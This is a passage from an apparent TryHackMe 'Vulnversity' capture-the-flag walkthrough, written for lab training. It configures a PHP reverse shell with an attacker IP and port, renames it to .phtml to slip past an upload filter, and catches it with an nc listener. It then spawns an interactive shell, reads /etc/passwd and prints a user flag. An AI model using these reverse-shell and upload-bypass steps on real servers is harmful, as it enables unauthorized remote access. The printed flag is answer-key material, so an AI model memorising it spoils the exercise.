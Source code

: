 5. *You should see a connection on your netcat session*

First we're going to edit the php-reverse shell to this:

    $ip = '10.8.82.167';
    $port = 4444;

and rename the file to `php-reverse-shell.phtml`:

```bash
kali@kali:~/labs/tryhackme/vulnversity$ mv php-reverse-shell.php php-reverse-shell.phtml
```

Then open up a new Terminal, and start up a nc listener:

    nc -lvnp 4444

Upload the .phtml file, and navigate to http://10.10.236.171:333/internal/uploads/php-reverse-shell.phtml`

The PHP reverse shell will execute, and you now have a shell in the Terminal!

![Netcat listener](images/nc.png)

Use `python -c 'import pty;pty.spawn("/bin/bash")'` to get an interactive shell.

#### Q.5 What is the name of the user who manages the webserver?

Just `cat /etc/passwd` and we can see there's a user called Bill!

#### Q.6 What is the user flag?

    cat /home/bill/user.txt

Output: 8bd7992fbe8a6ad22a63361004cfcedb
